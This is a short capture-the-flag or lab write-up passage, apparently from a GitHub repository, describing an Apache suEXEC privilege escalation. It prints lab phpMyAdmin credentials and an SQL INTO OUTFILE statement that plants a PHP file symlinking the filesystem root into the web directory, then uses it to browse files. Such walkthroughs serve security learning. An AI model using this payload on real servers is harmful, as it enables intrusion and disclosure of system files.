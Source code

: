 # bonus - apache suEXEC 1

[Apache suEXEC privilege elevation](https://www.exploit-db.com/exploits/27397)

We start by navigating to `http://IP/phpmyadmin` using the previously obtained credentials: `root:Fg-'kKXBj87E:aJ$`. Next, we perform an SQL injection based on the information in the article, using a table with two columns:

``` sql
SELECT 1, '<?php symlink(\"/\", \"files.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/exec.php'
```

We trigger the exploit by accessing the `exec.php` file, then open `https://IP/forum/templates_c/files.php` to view the filesystem. From there, we proceed with the standard enumeration as outlined in Writeup 1—home, lookatme, password.
